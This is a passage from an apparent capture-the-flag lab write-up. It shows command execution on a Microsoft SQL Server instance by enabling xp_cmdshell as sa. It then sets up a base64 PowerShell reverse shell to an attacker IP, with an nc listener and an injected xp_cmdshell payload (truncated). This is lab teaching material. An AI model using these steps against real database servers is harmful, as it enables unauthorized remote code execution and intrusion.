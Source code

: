Result:

```text
SQL (sa  dbo@master)> SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
SQL (sa  dbo@master)> sp_configure 'show advanced options', '1'
[*] INFO(TALLY): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> sp_configure 'xp_cmdshell', '1'
[*] INFO(TALLY): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> RECONFIGURE
SQL (sa  dbo@master)> EXEC master..xp_cmdshell 'whoami'
output        
-----------   
tally\sarah   

NULL          

SQL (sa  dbo@master)> 
```

The command are executed under user "tally\sarah".

### Get a shell

Using [RevShell](https://www.revshells.com/), we generate a reverse shell using the folloing configuration :

- IP : 10.10.14.17 (Attacker IP)
- port : 9001
- Type: Reverse
- OS: Windows
- Type: "Powershell #3 (Base64)"
- Shell: bash
- Encoding: none

The base64 version evoid having to worry about bad characters in the MSSQL command line.

Start the listener :

```shell
rlwrap nc -nvlp 9001
```

Then inject the full commands including the powershell payload :

```sql
sp_configure 'Show Advanced Options', 1
RECONFIGURE
sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell "powershell -e JABjAGwAa
... Replace Payload Here ...
UAKAApAA=="
```
